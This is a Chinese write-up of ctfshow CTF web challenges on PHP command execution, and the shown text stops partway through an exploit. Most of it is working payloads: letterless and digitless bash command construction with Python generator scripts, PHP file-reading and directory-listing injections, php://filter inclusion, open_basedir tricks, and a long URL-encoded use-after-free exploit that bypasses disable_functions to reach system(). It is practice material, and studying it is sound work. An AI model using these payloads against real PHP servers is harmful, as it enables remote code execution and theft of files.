# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-08 01:02:56
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

// 还能炫的动吗？
//flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
    }
}else{
    highlight_file(__FILE__);
}
``````

新增过滤：`. - = [ ' "`  不过给了cat，而且说flag in 36.php 也就是只要能用bash命令构造出 数字即可，而且这里没过滤 `+ | ~ ^`这样的运算符 也没有过滤 `$ () \` 这样构造常用的字符

### 方法一

``````
0
$(())

-1 # 0按位取反
$((~$(())))

-2 # $(( -1 -1)) 相加
$(( $((~$(()))) $((~$(()))) ))

-4 # $(( -2 -2)) 相加
$(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) ))))

-36 # 类推
$(($(($(( $(( $(( $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) )) $(( $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) )) )) $(( $(( $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) )) $(( $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) )) )) )) $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )))))) $((~$(())))))

-37 # $(( -36 -1))相加
$(($(($(( $(( $(( $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) )) $(( $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) )) )) $(( $(( $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) )) $(( $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) )) )) )) $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )))))) $((~$(())))))

36 #37按位取反
$(( ~$(($(($(( $(( $(( $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) )) $(( $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) )) )) $(( $(( $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) )) $(( $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) )) )) )) $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )))))) $((~$(())))))))
``````

### 方法二

```
?c=grep${IFS}'fla'${IFS}fla??php
```

> https://probiusofficial.github.io/bashFuck/
>
> ### 无数字字母构造bash命令
>
> [利用shell脚本变量构造无字母数字命令 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/12242?time__1311=GqGxRDcG0%3DIxlrzG78GCDn76Kd7K%3DEox)
>
> ####  bash中!的用法
>
> `!` 可以用于间接引用变量，例如：
>
> bash复制
>
> ```bash
> varname="myvar"
> echo ${!varname}  # 输出 myvar 的值
> ```
>
> #### $的用法
>
> > | 变量名 | 含义                                                  |
> > | ------ | ----------------------------------------------------- |
> > | $0     | 脚本本身的名字                                        |
> > | $1     | 脚本后所输入的第一串字符                              |
> > | $2     | 传递给该shell脚本的第二个参数                         |
> > | $*     | 脚本后所输入的所有字符’westos’ ‘linux’ ‘lyq’          |
> > | $@     | 脚本后所输入的所有字符’westos’ ‘linux’ ‘lyq’          |
> > | $_     | 表示上一个命令的最后一个参数                          |
> > | $#     | #脚本后所输入的字符串个数                             |
> > | $$     | 脚本运行的当前进程ID号                                |
> > | $!     | 表示最后执行的后台命令的PID                           |
> > | $?     | 显示最后命令的退出状态，0表示没有错误，其他表示由错误 |
>
> ``````bash
> bash<<<'ls'			# 用bash执行ls
> bash<<<$'\154\163'		# linux可以识别八进制表示的字符，将ls用八进制字符替换
> bash<<<$\'\\$((2#10011010))\\$((2#10100011))\'	# \154\163八进制替换成二进制 \$((2#10011010))\$((2#10100011))
> $0<<<$\'\\$((2#10011010))\\$((2#10100011))\'   	# 将bash用$0代替
> 
> # 由于上面执行方法不能待参数例如：ls / 或者cat flag，在ctfshow的极限命令执行题目里g4师傅给出了一种解决这种问题的方法——通过两次here-strings的方法来解析复杂的带参数命令
> $0<<<$0\<\<\<\$\'\\$(($((1<<1))#10011010))\\$(($((1<<1))#10100011))\\$(($((1<<1))#101000))\\$(($((1<<1))#111001))\' # 两次here-strings的方法来解析复杂的带参数命令
> 
> # $((1<<1))代替2
> $0<<<$0\<\<\<\$\'\\$(($((1<<1))#10011010))\\$(($((1<<1))#10100011))\'
> 
> ####替换数字
> # 用 #{}！ 继续替换数字${#}替换0,$${##}替换1,${!#}替换$0
> ┌──(kali㉿kali)-[~/桌面/工具/php_mt_seed-4.0]
> └─$ echo ${!#}                                                                                               bash
> ┌──(kali㉿kali)-[~/桌面/工具/php_mt_seed-4.0]
> └─$ echo ${##}  
> 1                                      
> ┌──(kali㉿kali)-[~/桌面/工具/php_mt_seed-4.0]
> └─$ echo ${#} 
> 0
> 
> ${!#}<<<${!#}\<\<\<\$\'\\$(($((${##}<<${##}))#${##}${#}${#}${##}${##}${#}${##}${#}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${#}${##}${##}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${#}))\\$(($((${##}<<${##}))#${##}${##}${##}${#}${#}${##}))\'
> 
> # php的system解析不了${!#}这么复杂的命令把${!#}<<<${!#}替换成__=${#};${!__}<<<${!__}
> __=${#};${!__}<<<${!__}\<\<\<\$\'\\$(($((${##}<<${##}))#${##}${#}${#}${##}${##}${#}${##}${#}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${#}${##}${##}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${#}))\\$(($((${##}<<${##}))#${##}${##}${##}${#}${#}${##}))\'
> 
> #### 利用$?构造从上一次构造我们其实可以发现，只要我们找到一个代表值为零的变量就可以得到bash进而继续构造，$?这个变量自然而然进入我的视线，它可以显示最后命令的退出状态，0表示没有错误，其他表示有错误 ，因此只要我们的payload最后不报错它的值自然还是0了：
> $0<<<$0\<\<\<\$\'\\$((2#10011010))\\$((2#10100011))\'
> 
> # 自增产生012 $______等于0用!$_____生成bash命令
> __=${?}&&___=$((++__))&&____=$((++___))&&_____=${?}&&${!_____}<<<${!_____}\<\<\<\$\'\\$((2#10011010))\\$((2#10100011))\\$((2#101000))\\$((2#111001))\'
> 
> # 用${_____}替换0，${__}替换1，${____}替换2
> __=${?}&&___=$((++__))&&____=$((++___))&&_____=${?}&&${!_____}<<<${!_____}\<\<\<\$\'\\$((${____}#${__}${_____}${_____}${__}${__}${_____}${__}${_____}))\\$((${____}#${__}${_____}${__}${_____}${_____}${_____}${__}${__}))\\$((${____}#${__}${_____}${__}${_____}${_____}${_____}))\\$((${____}#${__}${__}${__}${_____}${_____}${__}))\'
> 
> #### 利用$(())替代$?达到同样效果
> __=$(())&&___=$((++__))&&____=$((++___))&&_____=${?}&&${!_____}<<<${!_____}\<\<\<\$\'\\$((${____}#${__}${_____}${_____}${__}${__}${_____}${__}${_____}))\\$((${____}#${__}${_____}${__}${_____}${_____}${_____}${__}${__}))\\$((${____}#${__}${_____}${__}${_____}${_____}${_____}))\\$((${____}#${__}${__}${__}${_____}${_____}${__}))\'
> 
> ``````
>
> bash无代码字符数子执行命令利用脚本
>
> ```python
> cmd='cat /flag'
> 
> payload='__=${#};${!__}<<<${!__}\\<\\<\\<\\$\\\''
> for c in cmd:
>         payload+=f'\\\\$(($((1<<1))#{bin(int(oct(ord(c))[2:]))[2:]}))'.replace('1','${##}').replace('0','${#}')
> 
> payload+='\\\''
> 
> print(payload)
> ```
>
> ``````python
> cmd='cat /flag'
> 
> payload='__=${?}&&___=$((++__))&&____=$((++___))&&_____=${?}&&${!_____}<<<${!_____}\\<\\<\\<\\$\\\''
> for c in cmd:
>         payload+=f'\\\\$((2#{bin(int(oct(ord(c))[2:]))[2:]}))'.replace('1','${__}').replace('2','${____}').replace('0','${_____}')
> 
> payload+='\\\''
> 
> print(payload)
> ``````
>
> ```python
> cmd='cat /flag'
> 
> payload='__=$(())&&___=$((++__))&&____=$((++___))&&_____=$(())&&${!_____}<<<${!_____}\\<\\<\\<\\$\\\''
> for c in cmd:
>         payload+=f'\\\\$((2#{bin(int(oct(ord(c))[2:]))[2:]}))'.replace('1','${__}').replace('2','${____}').replace('0','${_____}')
> 
> payload+='\\\''
> 
> print(payload)
> ```

## Web58

这题使用的disable_function，执行系统命令的函数都用不了，所以只能使用php自带的函数读取flag，要么就绕过disable_function


### 思路一

payload：

``````
c=print_r(scandir(pos(localeconv())));
c=show_source(scandir(pos(localeconv()))[2]);
c=show_source(next(array_reverse(scandir(pos(localeconv())))));
``````

### 思路二

直接上蚁剑，可以获取flag


要想执行命令使用蚁剑插件[绕过disable_functions]


### 思路三：参数逃逸文件包含

`c=include($_POST['w']);&w=php://filter/convert.base64-encode/resource=flag.php`

## Web59

### 方法一：php命令读文件

payload：

### php获取当前路径的方法

```php
getcwd()
dirname('FILE')
```


#### php文件扫描函数

```
<?php
// 指定要遍历的目录
$directory = getcwd();
// 创建 FilesystemIterator 对象
$iterator = new FilesystemIterator($directory);

// 遍历目录
foreach ($iterator as $fileinfo) {
    // 打印文件名
    echo "文件名: " . $fileinfo->getFilename() . "<br>";
}
?>

c=print_r(scandir(dirname('FILE')));
c=print_r(scandir(pos(localeconv())));
c=print_r(glob(dirname('FILE')."/*.php"));
c=print_r(glob(pos(localeconv())."/*.php"));

c=$a=scandir("/");foreach ($a as $value) {echo $value . "\n";}
c=echo(implode('----',scandir("/")));
c=var_dump(scandir("/")); 

### var_export 可以替代 var_dump
c=var_export(glob(pos(localeconv())."."));
c=$a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');} exit(0);
```


#### php读文件函数

``````
c=show_source("flag.php");
c=highlight_file("flag.php");
c=readfile("flag.php"); # ban了
c=readgzfile("/flag.txt");

// include只能在包含非php文件时进行文件读取
c=include("/flag.txt");
c=include_once("/flag.txt");
c=require('/flag.txt');
c=require_once('/flag.txt');

c=var_dump((new SplFileObject("/flag.txt"))->fpassthru());
c=(new SplFileObject("/flag.txt"))->fpassthru();
c=echo json_encode(scandir("/"));


#文件包含+伪协议读取文件
c=include($_POST['w']);&w=php://filter/convert.base64-encode/resource=/flag.txt

# fgets读出所有行
c=$handle = fopen('flag.php', 'r');if ($handle === false) {die('Failed to open file');}while (($line = fgets($handle)) !== false) {echo $line;}if(!fclose($handle)){die('Failed to close file');}

# fread()+filesize()
c=$handle = fopen('flag.php', 'r');$contents = fread($handle, filesize('flag.php'));fclose($handle);echo $contents;

# file_get_contents()命令读取
c=$contents = file_get_contents('filename.txt');echo $contents; # ban了

# file()读取
c=print_r(file('flag.php'));

# PDO数据库load_file()读文件前提连接数据库
c=echo "test\n";try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root','root');foreach($dbh->query('select load_file("/flag36.txt")') as $row){echo $row[0]."\n";$dbh=null;}}catch (PDOException $e) {echo $e->getMessage();exit(0);}exit(0);
``````

### 方法二：参数逃逸+文件包含+伪协议

payload：`c=include($_POST['w']);&w=php://filter/convert.base64-encode/resource=flag.php`

## Web60

和前两题一样

## Web61

与前三题一样

## Web62

与前四题一样

## Web63

与前五题一样

## Web64

这几题估计想考disable_functions绕过

[绕过Disable Functions来搞事情 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/network/263540.html)

## Web65

## Web66

目录扫描`c=print_r(dirname('FILE')."\n");print_r(scandir("/"));`


文件读取`c=highlight_file("/flag.txt");`

flag：ctfshow{7df646c0-7616-4aa3-aca4-f98cab246fab}

## Web67

与前一题一样

## Web68

payload：

```
c=$a=scandir("/");foreach ($a as $value) {echo $value . "\n";}
c=var_dump((new SplFileObject("/flag.txt"))->fpassthru());
或者用文件包含+伪协议的方式读取
c=include($_POST['w']);&w=php://filter/convert.base64-encode/resource=/flag.txt
```

## Web69

与上一题一样

## Web70

与上一题一样

## Web71

题目：这段 PHP 代码的作用是将输出缓冲区（Output Buffer）中的内容取出，然后清除缓冲区，并将取出的内容中的所有数字和字母替换为问号（"?"），最后输出替换后的内容。

1. `ob_get_contents()`：这个函数用于获取当前输出缓冲区的内容。输出缓冲区是 PHP 中用来存储输出内容的区域，通常用于缓存输出，以便在输出之前进行修改。
2. `ob_end_clean()`：这个函数用于清除（清空）输出缓冲区的内容，并关闭当前的输出缓冲区。这个函数在清除缓冲区后，还会关闭缓冲，所以之后不能再使用 `ob_get_contents()` 获取内容。

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}

?>

你要上天吗？
```

**思路：提前退出缓冲区，或者提前将缓冲区内容输出**

```php
c=include('/flag.txt');ob_flush();
c=include('/flag.txt');exit();
c=include('/flag.txt');die();
```


## Web72

题目与前面相同，但在遍历目录的时候无法进入其他目录，猜测开启了Open_basedir

### Open_basedir绕过有如下几个方法：

- 方法一：执行系统命令绕过open_basedir对php代码的限制，但是这里明显不行system();exec();这些函数都被禁用了
- 方法二：glob://伪协议突破open_basedir，但是这个很鸡肋只能目录扫描，不能读文件

```
c=$a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');} exit(0);

c=(new SplFileObject("/flag0.txt"))->fpassthru();
```

### 思路：绕不过Open_basedir就绕disable_functions

**UAF构造命令执行是pwn的知识直接使用UAF函数即可**

命令执行入口在最后

```php
c=%0Afunction%20ctfshow(%24cmd)%20%7B%0A%20%20%20%20global%20%24abc%2C%20%24helper%2C%20%24backtrace%3B%0A%0A%20%20%20%20class%20Vuln%20%7B%0A%20%20%20%20%20%20%20%20public%20%24a%3B%0A%20%20%20%20%20%20%20%20public%20function%20__destruct()%20%7B%20%0A%20%20%20%20%20%20%20%20%20%20%20%20global%20%24backtrace%3B%20%0A%20%20%20%20%20%20%20%20%20%20%20%20unset(%24this-%3Ea)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24backtrace%20%3D%20(new%20Exception)-%3EgetTrace()%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20if(!isset(%24backtrace%5B1%5D%5B'args'%5D))%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24backtrace%20%3D%20debug_backtrace()%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%0A%0A%20%20%20%20class%20Helper%20%7B%0A%20%20%20%20%20%20%20%20public%20%24a%2C%20%24b%2C%20%24c%2C%20%24d%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20str2ptr(%26%24str%2C%20%24p%20%3D%200%2C%20%24s%20%3D%208)%20%7B%0A%20%20%20%20%20%20%20%20%24address%20%3D%200%3B%0A%20%20%20%20%20%20%20%20for(%24j%20%3D%20%24s-1%3B%20%24j%20%3E%3D%200%3B%20%24j--)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24address%20%3C%3C%3D%208%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24address%20%7C%3D%20ord(%24str%5B%24p%2B%24j%5D)%3B%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20return%20%24address%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20ptr2str(%24ptr%2C%20%24m%20%3D%208)%20%7B%0A%20%20%20%20%20%20%20%20%24out%20%3D%20%22%22%3B%0A%20%20%20%20%20%20%20%20for%20(%24i%3D0%3B%20%24i%20%3C%20%24m%3B%20%24i%2B%2B)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24out%20.%3D%20sprintf(%22%25c%22%2C(%24ptr%20%26%200xff))%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24ptr%20%3E%3E%3D%208%3B%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20return%20%24out%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20write(%26%24str%2C%20%24p%2C%20%24v%2C%20%24n%20%3D%208)%20%7B%0A%20%20%20%20%20%20%20%20%24i%20%3D%200%3B%0A%20%20%20%20%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%20%24n%3B%20%24i%2B%2B)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24str%5B%24p%20%2B%20%24i%5D%20%3D%20sprintf(%22%25c%22%2C(%24v%20%26%200xff))%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24v%20%3E%3E%3D%208%3B%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20leak(%24addr%2C%20%24p%20%3D%200%2C%20%24s%20%3D%208)%20%7B%0A%20%20%20%20%20%20%20%20global%20%24abc%2C%20%24helper%3B%0A%20%20%20%20%20%20%20%20write(%24abc%2C%200x68%2C%20%24addr%20%2B%20%24p%20-%200x10)%3B%0A%20%20%20%20%20%20%20%20%24leak%20%3D%20strlen(%24helper-%3Ea)%3B%0A%20%20%20%20%20%20%20%20if(%24s%20!%3D%208)%20%7B%20%24leak%20%25%3D%202%20%3C%3C%20(%24s%20*%208)%20-%201%3B%20%7D%0A%20%20%20%20%20%20%20%20return%20%24leak%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20parse_elf(%24base)%20%7B%0A%20%20%20%20%20%20%20%20%24e_type%20%3D%20leak(%24base%2C%200x10%2C%202)%3B%0A%0A%20%20%20%20%20%20%20%20%24e_phoff%20%3D%20leak(%24base%2C%200x20)%3B%0A%20%20%20%20%20%20%20%20%24e_phentsize%20%3D%20leak(%24base%2C%200x36%2C%202)%3B%0A%20%20%20%20%20%20%20%20%24e_phnum%20%3D%20leak(%24base%2C%200x38%2C%202)%3B%0A%0A%20%20%20%20%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%20%24e_phnum%3B%20%24i%2B%2B)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24header%20%3D%20%24base%20%2B%20%24e_phoff%20%2B%20%24i%20*%20%24e_phentsize%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24p_type%20%20%3D%20leak(%24header%2C%200%2C%204)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24p_flags%20%3D%20leak(%24header%2C%204%2C%204)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24p_vaddr%20%3D%20leak(%24header%2C%200x10)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24p_memsz%20%3D%20leak(%24header%2C%200x28)%3B%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20if(%24p_type%20%3D%3D%201%20%26%26%20%24p_flags%20%3D%3D%206)%20%7B%20%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24data_addr%20%3D%20%24e_type%20%3D%3D%202%20%3F%20%24p_vaddr%20%3A%20%24base%20%2B%20%24p_vaddr%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24data_size%20%3D%20%24p_memsz%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%20else%20if(%24p_type%20%3D%3D%201%20%26%26%20%24p_flags%20%3D%3D%205)%20%7B%20%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24text_size%20%3D%20%24p_memsz%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%7D%0A%0A%20%20%20%20%20%20%20%20if(!%24data_addr%20%7C%7C%20!%24text_size%20%7C%7C%20!%24data_size)%0A%20%20%20%20%20%20%20%20%20%20%20%20return%20false%3B%0A%0A%20%20%20%20%20%20%20%20return%20%5B%24data_addr%2C%20%24text_size%2C%20%24data_size%5D%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20get_basic_funcs(%24base%2C%20%24elf)%20%7B%0A%20%20%20%20%20%20%20%20list(%24data_addr%2C%20%24text_size%2C%20%24data_size)%20%3D%20%24elf%3B%0A%20%20%20%20%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%20%24data_size%20%2F%208%3B%20%24i%2B%2B)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24leak%20%3D%20leak(%24data_addr%2C%20%24i%20*%208)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20if(%24leak%20-%20%24base%20%3E%200%20%26%26%20%24leak%20-%20%24base%20%3C%20%24data_addr%20-%20%24base)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24deref%20%3D%20leak(%24leak)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20if(%24deref%20!%3D%200x746e6174736e6f63)%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20continue%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%20else%20continue%3B%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20%24leak%20%3D%20leak(%24data_addr%2C%20(%24i%20%2B%204)%20*%208)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20if(%24leak%20-%20%24base%20%3E%200%20%26%26%20%24leak%20-%20%24base%20%3C%20%24data_addr%20-%20%24base)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24deref%20%3D%20leak(%24leak)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20if(%24deref%20!%3D%200x786568326e6962)%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20continue%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%20else%20continue%3B%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20return%20%24data_addr%20%2B%20%24i%20*%208%3B%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20get_binary_base(%24binary_leak)%20%7B%0A%20%20%20%20%20%20%20%20%24base%20%3D%200%3B%0A%20%20%20%20%20%20%20%20%24start%20%3D%20%24binary_leak%20%26%200xfffffffffffff000%3B%0A%20%20%20%20%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%200x1000%3B%20%24i%2B%2B)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24addr%20%3D%20%24start%20-%200x1000%20*%20%24i%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24leak%20%3D%20leak(%24addr%2C%200%2C%207)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20if(%24leak%20%3D%3D%200x10102464c457f)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20return%20%24addr%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20get_system(%24basic_funcs)%20%7B%0A%20%20%20%20%20%20%20%20%24addr%20%3D%20%24basic_funcs%3B%0A%20%20%20%20%20%20%20%20do%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24f_entry%20%3D%20leak(%24addr)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24f_name%20%3D%20leak(%24f_entry%2C%200%2C%206)%3B%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20if(%24f_name%20%3D%3D%200x6d6574737973)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20return%20leak(%24addr%20%2B%208)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%24addr%20%2B%3D%200x20%3B%0A%20%20%20%20%20%20%20%20%7D%20while(%24f_entry%20!%3D%200)%3B%0A%20%20%20%20%20%20%20%20return%20false%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20trigger_uaf(%24arg)%20%7B%0A%0A%20%20%20%20%20%20%20%20%24arg%20%3D%20str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA')%3B%0A%20%20%20%20%20%20%20%20%24vuln%20%3D%20new%20Vuln()%3B%0A%20%20%20%20%20%20%20%20%24vuln-%3Ea%20%3D%20%24arg%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20if(stristr(PHP_OS%2C%20'WIN'))%20%7B%0A%20%20%20%20%20%20%20%20die('This%20PoC%20is%20for%20*nix%20systems%20only.')%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20%24n_alloc%20%3D%2010%3B%20%0A%20%20%20%20%24contiguous%20%3D%20%5B%5D%3B%0A%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%20%24n_alloc%3B%20%24i%2B%2B)%0A%20%20%20%20%20%20%20%20%24contiguous%5B%5D%20%3D%20str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA')%3B%0A%0A%20%20%20%20trigger_uaf('x')%3B%0A%20%20%20%20%24abc%20%3D%20%24backtrace%5B1%5D%5B'args'%5D%5B0%5D%3B%0A%0A%20%20%20%20%24helper%20%3D%20new%20Helper%3B%0A%20%20%20%20%24helper-%3Eb%20%3D%20function%20(%24x)%20%7B%20%7D%3B%0A%0A%20%20%20%20if(strlen(%24abc)%20%3D%3D%2079%20%7C%7C%20strlen(%24abc)%20%3D%3D%200)%20%7B%0A%20%20%20%20%20%20%20%20die(%22UAF%20failed%22)%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20%24closure_handlers%20%3D%20str2ptr(%24abc%2C%200)%3B%0A%20%20%20%20%24php_heap%20%3D%20str2ptr(%24abc%2C%200x58)%3B%0A%20%20%20%20%24abc_addr%20%3D%20%24php_heap%20-%200xc8%3B%0A%0A%20%20%20%20write(%24abc%2C%200x60%2C%202)%3B%0A%20%20%20%20write(%24abc%2C%200x70%2C%206)%3B%0A%0A%20%20%20%20write(%24abc%2C%200x10%2C%20%24abc_addr%20%2B%200x60)%3B%0A%20%20%20%20write(%24abc%2C%200x18%2C%200xa)%3B%0A%0A%20%20%20%20%24closure_obj%20%3D%20str2ptr(%24abc%2C%200x20)%3B%0A%0A%20%20%20%20%24binary_leak%20%3D%20leak(%24closure_handlers%2C%208)%3B%0A%20%20%20%20if(!(%24base%20%3D%20get_binary_base(%24binary_leak)))%20%7B%0A%20%20%20%20%20%20%20%20die(%22Couldn't%20determine%20binary%20base%20address%22)%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20if(!(%24elf%20%3D%20parse_elf(%24base)))%20%7B%0A%20%20%20%20%20%20%20%20die(%22Couldn't%20parse%20ELF%20header%22)%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20if(!(%24basic_funcs%20%3D%20get_basic_funcs(%24base%2C%20%24elf)))%20%7B%0A%20%20%20%20%20%20%20%20die(%22Couldn't%20get%20basic_functions%20address%22)%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20if(!(%24zif_system%20%3D%20get_system(%24basic_funcs)))%20%7B%0A%20%20%20%20%20%20%20%20die(%22Couldn't%20get%20zif_system%20address%22)%3B%0A%20%20%20%20%7D%0A%0A%0A%20%20%20%20%24fake_obj_offset%20%3D%200xd0%3B%0A%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%200x110%3B%20%24i%20%2B%3D%208)%20%7B%0A%20%20%20%20%20%20%20%20write(%24abc%2C%20%24fake_obj_offset%20%2B%20%24i%2C%20leak(%24closure_obj%2C%20%24i))%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20write(%24abc%2C%200x20%2C%20%24abc_addr%20%2B%20%24fake_obj_offset)%3B%0A%20%20%20%20write(%24abc%2C%200xd0%2